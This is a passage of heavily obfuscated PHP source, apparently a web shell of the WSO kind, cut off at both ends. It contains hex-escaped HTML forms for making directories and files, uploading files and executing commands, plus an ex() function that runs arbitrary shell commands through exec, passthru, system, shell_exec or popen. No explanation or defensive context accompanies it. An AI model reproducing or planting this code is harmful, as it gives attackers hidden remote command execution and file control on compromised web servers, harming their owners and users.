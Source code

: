 <t\x64\x3e<\x66o\x72m o\x6es\x75\x62mit\x3d\"\x67(\x27\x46\x69\x6ces\x4dan\x27,n\x75\x6cl,'\x6d\x6bdi\x72',this\x2ed.\x76\x61\x6cue)\x3br\x65turn\x20\x66\x61lse;\"\x3e<\x73\x70an\x3eM\x61ke \x64i\x72:</\x73\x70\x61\x6e>\n<i\x6e\x70\x75\x74 c\x6c\x61s\x73\x3d\"to\x6fls\x49np\x22\x20t\x79p\x65\x3dt\x65\x78\x74 \x6eame=\x64><\x69\x6e\x70\x75\x74 \x74ype\x3ds\x75\x62\x6di\x74\x20\x76al\x75e\x3d\x22\x3e\x3e\">\x3c/f\x6f\x72\x6d>";echo ${${"\x47LO\x42\x41\x4cS"}["\x7a\x63\x7a\x69\x72bw\x64\x78\x76"]};echo "</td\x3e\x20\n\x20  \x20  \x20 <\x74\x64\x3e\x3c\x66\x6f\x72\x6d \x6f\x6es\x75\x62mi\x74\x3d\x22\x67(\x27Fil\x65\x73T\x6fo\x6c\x73\x27,\x6e\x75\x6c\x6c,\x74\x68is\x2ef.\x76\x61lue,'\x6d\x6bf\x69\x6c\x65')\x3br\x65\x74ur\x6e\x20\x66\x61l\x73\x65\x3b\"\x3e<\x73pa\x6e>M\x61\x6be f\x69\x6ce:\x3c/spa\x6e\x3e\n<\x69\x6epu\x74\x20cl\x61\x73s=\"\x74\x6f\x6fls\x49\x6e\x70\x22\x20\x74\x79\x70\x65=t\x65\x78\x74 n\x61m\x65=\x66><i\x6ep\x75t \x74yp\x65\x3d\x73u\x62\x6d\x69t v\x61lue\x3d\x22\x3e>\x22\x3e</form>";echo ${${"G\x4cO\x42\x41L\x53"}["\x7a\x63\x7a\x69\x72\x62\x77dxv"]};echo "</\x74\x64>\x20\n\x20 \x20\x20</\x74\x72>\x20\n\x20 \x20 \x3c\x74r\x3e\x20\n     \x20\x20\x20\x3ctd\x3e\x3cf\x6fr\x6d on\x73\x75\x62mit=\x22g(\x27C\x6fnsol\x65',n\x75ll,this\x2ec.v\x61\x6c\x75e);\x72e\x74u\x72n f\x61ls\x65\x3b\x22\x3e<\x73\x70\x61n>\x45xec\x75\x74e:</\x73\x70a\x6e\x3e\n\x3ci\x6e\x70\x75t\x20c\x6ca\x73s\x3d\"t\x6f\x6fls\x49n\x70\x22 typ\x65\x3dte\x78\x74 n\x61me=c\x20\x76al\x75\x65=\x22\"\x3e\x3ci\x6ep\x75\x74\x20\x74y\x70\x65=subm\x69t\x20\x76\x61l\x75\x65=\x22>>\"\x3e</form>\x3c/\x74d>\x20\n\x20   \x20\x20\x20 <td\x3e<f\x6fr\x6d \x6de\x74\x68\x6fd=\x27pos\x74'\x20E\x4e\x43T\x59P\x45=\x27mul\x74i\x70\x61r\x74/f\x6frm-d\x61\x74\x61'> \n\x20  \x20\x20\x20 \x20<\x69np\x75t\x20ty\x70\x65=h\x69d\x64\x65n \x6ea\x6d\x65\x3da\x20\x76\x61l\x75\x65\x3d'\x46\x69l\x65\x73M\x41n\x27\x3e \n   \x20\x20\x20 \x20\x3c\x69\x6ep\x75t \x74y\x70e\x3d\x68i\x64d\x65n \x6e\x61m\x65\x3dc \x76\x61\x6cue='";echo htmlspecialchars($GLOBALS["\x63\x77d"]);echo "'>\x20\n  \x20\x20 \x20  \x3c\x69\x6epu\x74 type=h\x69\x64\x64\x65\x6e n\x61m\x65=p\x31 val\x75e\x3d'u\x70\x6coa\x64Fi\x6ce'\x3e\x20\n\x20\x20\x20  \x20\x20 \x3cinpu\x74 t\x79p\x65\x3dhid\x64e\x6e n\x61me\x3dc\x68\x61\x72\x73\x65t\x20val\x75\x65=\x27";echo isset($_POST["\x63h\x61rse\x74"])?$_POST["c\x68a\x72\x73\x65t"]:"";echo "\x27>\x20\n\x20 \x20    \x20\x3csp\x61n\x3eUpl\x6fa\x64 file:</\x73p\x61n>\n<\x69\x6e\x70u\x74\x20cl\x61\x73s=\x22\x74o\x6f\x6csIn\x70\"\x20ty\x70\x65\x3d\x66i\x6c\x65\x20\x6ea\x6de\x3df>\x3cinp\x75\x74 t\x79p\x65\x3dsub\x6d\x69\x74\x20\x76\x61\x6c\x75\x65\x3d\x22\x3e>\x22>\x3c/\x66o\x72\x6d>";echo ${${"GL\x4f\x42A\x4c\x53"}["\x7a\x63\x7a\x69rb\x77\x64\x78\x76"]};echo "</\x74\x64>\x20\n \x20\x20\x20</\x74r\x3e\x20\n\x20\n\x3c/\x74a\x62le>\x20\n\x3c/di\x76\x3e\x20\n\x3c/\x62o\x64\x79></\x68tml\x3e\x20\n";}if(!function_exists("p\x6f\x73\x69x_\x67\x65\x74\x70w\x75\x69d")&&(strpos($GLOBALS["\x64\x69\x73able\x5ff\x75\x6ec\x74\x69o\x6es"],"\x70\x6f\x73\x69x_\x67e\x74\x70wu\x69\x64")===false)){function posix_getpwuid($p){return false;}}if(!function_exists("\x70o\x73i\x78_\x67\x65\x74g\x72\x67\x69d")&&(strpos($GLOBALS["\x64\x69sa\x62l\x65\x5ffu\x6ec\x74\x69\x6fns"],"\x70o\x73\x69\x78\x5fgetgrg\x69d")===false)){function posix_getgrgid($p){return false;}}function ex($in){${"\x47\x4c\x4f\x42A\x4c\x53"}["z\x72\x6fi\x6a\x79mhn\x67\x77z"]="\x6f\x75\x74";${${"G\x4c\x4fB\x41L\x53"}["\x7a\x72o\x69j\x79mh\x6e\x67\x77\x7a"]}="";${"GLO\x42ALS"}["lhys\x79\x64\x79d"]="out";if(function_exists("\x65xe\x63")){${"\x47\x4c\x4f\x42ALS"}["\x75\x6d\x6e\x63\x79\x76\x78"]="ou\x74";$eexuvxmdb="o\x75\x74";@exec(${${"\x47L\x4fBA\x4c\x53"}["\x6f\x6a\x7a\x77\x73\x7as"]},${${"\x47L\x4f\x42\x41\x4cS"}["u\x6dn\x63\x79\x76\x78"]});${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x72\x63\x76\x76\x72\x78oh\x77\x74"]}=@join("\n",${$eexuvxmdb});}elseif(function_exists("pa\x73\x73\x74h\x72\x75")){$loyewsejlm="o\x75\x74";${"\x47\x4c\x4f\x42\x41L\x53"}["c\x76\x65\x62t\x63drsf\x62"]="\x69n";ob_start();@passthru(${${"\x47LO\x42A\x4c\x53"}["\x63v\x65\x62\x74\x63\x64\x72\x73\x66\x62"]});${$loyewsejlm}=ob_get_clean();}elseif(function_exists("sy\x73\x74e\x6d")){ob_start();@system(${${"\x47\x4cO\x42A\x4cS"}["o\x6a\x7aws\x7as"]});${${"GL\x4fB\x41\x4c\x53"}["\x72\x63vv\x72\x78\x6fh\x77\x74"]}=ob_get_clean();}elseif(function_exists("\x73hell_\x65xec")){${"\x47L\x4fB\x41\x4c\x53"}["\x6fw\x6e\x69wu\x77\x63\x64\x75"]="i\x6e";${"\x47\x4c\x4f\x42A\x4cS"}["\x77\x6f\x66c\x77\x79\x63\x6d"]="out";${${"\x47\x4c\x4f\x42\x41\x4cS"}["w\x6f\x66cw\x79\x63\x6d"]}=shell_exec(${${"GLO\x42\x41\x4c\x53"}["\x6fw\x6e\x69\x77u\x77c\x64u"]});}elseif(is_resource(${${"\x47L\x4f\x42\x41\x4c\x53"}["m\x67juxb"]}=@popen(${${"\x47\x4cOBA\x4cS"}["o\x6azw\x73\x7a\x73"]},"\x72"))){${"\x47\x4c\x4f\x42\x41L\x53"}["ep\x66\x6f\x77t\x64n\x6dyt\x64"]="f";${${"G\x4cO\x42\x41\x4c\x53"}["r\x63v\x76\x72x\x6fhwt"]}="";while(!@feof(${${"G\x4c\x4f\x42A\x4cS"}["\x6d\x67\x6a\x75x\x62"]}))${${"G\x4cO\x42\x41\x4c\x53"}["r\x63\x76\x76r\x78o\x68w\x74"]}.=fread(${${"\x47\x4c\x4fBAL\x53"}["\x65\x70\x66ow\x74d\x6em\x79td"]},1024);pclose(${${"G\x4c\x4f\x42A\x4cS"}["\x6d\x67\x6a\x75\x78b"]});}return${${"\x47\x4c\x4fB\x41\x4c\x53"}["lhy\x73\x79\x64y\x64"]};}function viewSize($s){${"G\x4c\x4fB\x41L\x53"}["g\x6c\x68\x6f\x73\x6ai\x67\x6e"]="\x73";${"\x47\x4cOBA\x4cS"}["\x78\x6e\x64\x70a\x66sf"]="\x73";${"\x47L\x4f\x42\x41L\x53"}["n\x68q\x6d\x72\x68"]="\x73";if(${${"G\x4c\x4f\x42AL\x53"}["\x6c\x75h\x6b\x6fu\x6c"]}>=1073741824)return sprintf("%1.2f",${${"\x47L\x4f\x42ALS"}["\x78\x6ed\x70\x61f\x73\x66"]}/1073741824)."\x20\x47\x42";elseif(${${"G\x4c\x4f\x42\x41\x4c\x53"}["\x6c\x75\x68\x6b\x6f\x75\x6c"]}>=1048576)return sprintf("%1\x2e2\x66",${${"\x47\x4c\x4fB\x41\x4c\x53"}["lu\x68\x6b\x6fu\x6c"]}/1048576)." \x4d\x42";elseif(${${"G\x4c\x4f\x42A\x4cS"}["\x6e\x68\x71m\x72h"]}>=1024)return